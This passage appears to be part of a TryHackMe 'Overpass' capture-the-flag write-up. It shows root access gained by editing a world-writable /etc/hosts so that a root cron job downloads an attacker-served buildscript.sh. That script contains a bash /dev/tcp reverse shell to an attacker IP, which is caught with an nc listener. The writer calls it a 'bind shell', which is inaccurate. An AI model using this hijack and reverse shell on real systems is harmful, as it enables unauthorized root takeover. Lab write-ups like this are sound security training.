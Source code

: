 ```bash
james@overpass-prod:/usr/local/go$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

James has the permissions to change the hosts file

```bash
james@overpass-prod:/usr/local/go$ ls -ail /etc/hosts
1049292 -rw-rw-rw- 1 root root 250 Jun 27 02:39 /etc/hosts
```

I have changed the IP address of overpass.thm to my Kali.

In Kali, I have recreated the path of `overpass.thm/downloads/src/buildscript.sh`

```bash
mkdir -p downloads/src/
touch downloads/src/buildscript.sh
```
In the buildscript.sh I have added a bind shell

```bash
cat downloads/src/buildscript.sh 
#!/bin/bash

bash -i >& /dev/tcp/[ATTACKER-IP]/1234 0>&1
```

A simple http server to serve the new file

```bash
sudo python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.26 - - [26/Dec/2020 15:51:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
10.10.10.26 - - [26/Dec/2020 15:52:03] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
```
On my Kali, I have started a reverse shell, which gives us the root access when the cron runs

```bash
nc -nvlp 1234

listening on [any] 1234 ...
connect to [IP] from (UNKNOWN) [10.10.10.26] 39080
bash: cannot set terminal process group (3990): Inappropriate ioctl for device
bash: no job control in this shell

root@overpass-prod:~# id 
id 
uid=0(root) gid=0(root) groups=0(root)

root@overpass-prod:~# cat /root/root.txt
cat /root/root.txt
thm{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```